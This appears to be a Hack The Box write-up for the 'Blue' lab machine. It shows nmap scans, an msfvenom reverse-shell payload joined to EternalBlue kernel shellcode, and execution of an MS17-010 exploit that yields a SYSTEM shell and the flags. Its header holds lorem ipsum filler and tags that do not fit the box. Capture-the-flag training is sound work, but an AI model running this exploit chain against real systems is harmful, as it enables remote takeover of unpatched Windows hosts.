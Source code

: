```yaml
---
layout: single
title: Blue - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2019-04-09
classes: wide
header:
  teaser: /assets/images/htb-writeup-blue/blue_logo.png
  teaser_home_page: true
  icon: /assets/images/htb.png
categories:
  - hackthebox
  - infosec
tags:  
  - osticket
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-blue/blue_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. [root:/git/htb/blue]# nmap -Pn -n -sCV 10.10.10.40 --open                                                                         (master✱)
    Not shown: 991 closed ports
    PORT      STATE SERVICE      VERSION
    135/tcp   open  msrpc        Microsoft Windows RPC
    139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
    445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
    49152/tcp open  msrpc        Microsoft Windows RPC
    49153/tcp open  msrpc        Microsoft Windows RPC
    49154/tcp open  msrpc        Microsoft Windows RPC
    49155/tcp open  msrpc        Microsoft Windows RPC
    49156/tcp open  msrpc        Microsoft Windows RPC
    49157/tcp open  msrpc        Microsoft Windows RPC
    Service Info: Host: HARIS-PC; OS: Windows; CPE: cpe:/o:microsoft:windows

    Host script results:
    |_clock-skew: mean: 3m40s, deviation: 1s, median: 3m39s
    | smb-os-discovery:
    |   OS: Windows 7 Professional 7601 Service Pack 1 (Windows 7 Professional 6.1)
    |   OS CPE: cpe:/o:microsoft:windows_7::sp1:professional
    |   Computer name: haris-PC
    |   NetBIOS computer name: HARIS-PC\x00
    |   Workgroup: WORKGROUP\x00
    |_  System time: 2021-02-24T13:00:40+00:00
    | smb-security-mode:
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-security-mode:
    |   2.02:
    |_    Message signing enabled but not required
    | smb2-time:
    |   date: 2021-02-24T13:00:38
    |_  start_date: 2021-02-24T12:54:58


  [root:/git/htb/blue]# nmap -p139,445 --script vuln 10.10.10.40                                                                    (master✱)
    Host script results:
    |_smb-vuln-ms10-054: false
    |_smb-vuln-ms10-061: NT_STATUS_OBJECT_NAME_NOT_FOUND
    | smb-vuln-ms17-010:
    |   VULNERABLE:
    |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
    |     State: VULNERABLE
    |     IDs:  CVE:CVE-2017-0143
    |     Risk factor: HIGH
    |       A critical remote code execution vulnerability exists in Microsoft SMBv1
    |        servers (ms17-010).
    |
    |     Disclosure date: 2017-03-14
    |     References:
    |       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
    |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
    |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143


2. Just like the box 'legacy' this device is vulnerable to ms17-010, eternal blue (as suggested by the box name).
   Trying to execute the same exploit and payload however gives us an error, so we need to find another approach.

     [root:/git/htb/blue]# python send_and_execute.py 10.10.10.40 ms17-010.exe                                                         (master✱)
      Trying to connect to 10.10.10.40:445
      Target OS: Windows 7 Professional 7601 Service Pack 1
      Not found accessible named pipe
      Done


3. Assemble the shellcode to binary, here we need to know the architecture (x64 or x86) but Im assuming it's x64 so lets start with that.

    [root:/git/htb/blue]# nasm -f bin eternalblue_kshellcode_x64.asm -o sc_x64_kernel.bin

    Generate binary payload:
    [root:/git/htb/blue]# msfvenom -p windows/x64/shell_reverse_tcp LPORT=4488 LHOST=10.10.14.10 --platform windows -a x64 --format raw -o sc_x64_payload.bin
      No encoder specified, outputting raw payload
      Payload size: 460 bytes
      Saved as: sc_x64_payload.bin

    Concentrate payload & shellcode:
    [root:/git/htb/blue]# cat sc_x64_kernel.bin sc_x64_payload.bin > sc_x64.bin


4. Exploit and grab all the flags.

    [root:/git/htb/blue]# python eternalblue_exploit7.py 10.10.10.40 sc_x64.bin                                                       (master✱)
      shellcode size: 1232
      numGroomConn: 13
      Target OS: Windows 7 Professional 7601 Service Pack 1
      SMB1 session setup allocate nonpaged pool success
      SMB1 session setup allocate nonpaged pool success
      good response status: INVALID_PARAMETER
      done


    [root:/git/htb/blue]# nc -lvnp 4488                                                                                               (master✱)
      listening on [any] 4488 ...
      connect to [10.10.14.10] from (UNKNOWN) [10.10.10.40] 49158
      Microsoft Windows [Version 6.1.7601]
      Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

      C:\Windows\system32>whoami
        nt authority\system

      C:\Users\haris\Desktop>type user.txt
        4c546aea7dbee75cbd71de245c8deea9

      C:\Users\Administrator\Desktop>type root.txt
        ff548eb71e920ff6c08843ce9df4e717


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. -

██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

ms17-010 EternalBlue manual exploit:
  https://root4loot.com/post/eternalblue_manual_exploit/

ms17-010 shellcode:
  https://github.com/worawit/MS17-010/tree/master/shellcode
